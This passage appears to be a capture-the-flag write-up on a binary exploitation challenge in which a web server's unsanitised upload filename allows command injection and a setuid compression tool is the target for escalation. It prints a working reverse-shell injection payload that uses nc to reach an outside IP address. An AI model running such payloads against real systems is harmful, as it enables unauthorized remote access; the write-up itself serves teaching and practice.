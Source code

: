 # Who Does This Belong To

This was a binary exploitation problem that involved a long (and eventually quite satisfying) exploit chain.

## Understanding the Challenge Files

The challenge files provide us with two main binaries: `diusweb` and `dius`. Additionally, we are provided with a few other files used in this challenge:

* `diusweb.cfg`: This is the main configuration file consumed by the `diusweb` and `dius` binaries (which expect to find it at `/etc/diusweb.cfg`). It has options for specifying what port the server should listen on (`PORT`), which directory on the system is considered the web root (`WEB_DIRECTORY`), whether privileges should be dropped (`DROP_PRIVS`), and a couple of other unimportant options. This configuration file also has a note letting us know that the flag is in `/root/flag`.
* `www/`: A copy of the web directory from the target. Of note here is that the `www/dius/` directory is meant to contain files that users upload to the website, and the `www/c/` directory contains shared objects that implement different compression algorithms that can be lazily loaded for use by the `dius` binary.

### `diusweb`

I didn't spend a ton of time reversing or understanding the `diusweb` binary, as it is only a small part of this challenge. This binary powers the web interface that was the only publicly exposed part of this challenge, and serves as our initial access vector.

The fundamental flaw in the `diusweb` binary is that, in order to compress user-uploaded files, it uses `system` to call the `dius` binary . However, it uses the unchanged user-specified filename when building the `dius` command that gets passed to `system`, so command injection is trivial. One of the provided hints let us know that `nc` is installed on the target, so we can pop a reverse shell with:

```sh
;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.254.20 5555 >/tmp/f;
```

### `dius`

With unprivileged access on the target system, and knowing that the flag is in `/root/flag`, we need to escalate privileges to `root`. A quick search for setuid binaries on the target system indicates that `dius` is indeed setuid on the target system, and seems like the obvious target for exploitation.

#### Basic Functionality

`dius` is a command-line tool that supports the compression and decompression of files. It has three basic modes of operations:

* `c`: Create a new archive.
* `x`: Extract the contents of an archive.
* `t`: List the contents of an archive.

#### Compression Shared Objects
